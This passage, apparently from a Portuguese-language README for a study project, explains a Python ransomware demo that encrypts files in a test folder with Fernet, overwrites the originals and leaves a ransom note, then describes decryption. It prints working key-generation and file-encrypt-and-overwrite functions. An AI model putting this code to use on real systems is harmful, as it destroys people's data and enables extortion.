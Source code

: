    ```python
   chave = Fernet.generate_key()  # Chave aleatória de 256 bits
   ```

2. **Busca de Arquivos:**

   - Varre recursivamente o diretório `test_files/`
   - Ignora o próprio script (`ransoware.py`)
   - Ignora arquivos de chave (`.key`)

3. **Criptografia:**

   - Lê o conteúdo do arquivo
   - Aplica criptografia Fernet
   - Sobrescreve o arquivo original

4. **Mensagem de Resgate:**
   - Cria arquivo `LEIA ISSO.txt`
   - Contém instruções para "pagamento"

### Processo de Descriptografia

1. **Carregamento da Chave:**

   ```python
   chave = open("chave.key", "rb").read()
   ```

2. **Descriptografia:**
   - Localiza arquivos criptografados
   - Aplica descriptografia com a chave
   - Restaura conteúdo original

## 🔍 Análise do Código

### `ransoware.py` - Componentes Principais

```python
# 1. Geração de chave criptográfica
def gerar_chave():
    chave = Fernet.generate_key()
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)
    return chave

# 2. Criptografia de arquivo individual
def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_criptografados = f.encrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_criptografados)

# 3. Busca recursiva por arquivos
def encontrar_arquivos(diretorio):
    # Implementa busca recursiva excluindo arquivos do sistema
```
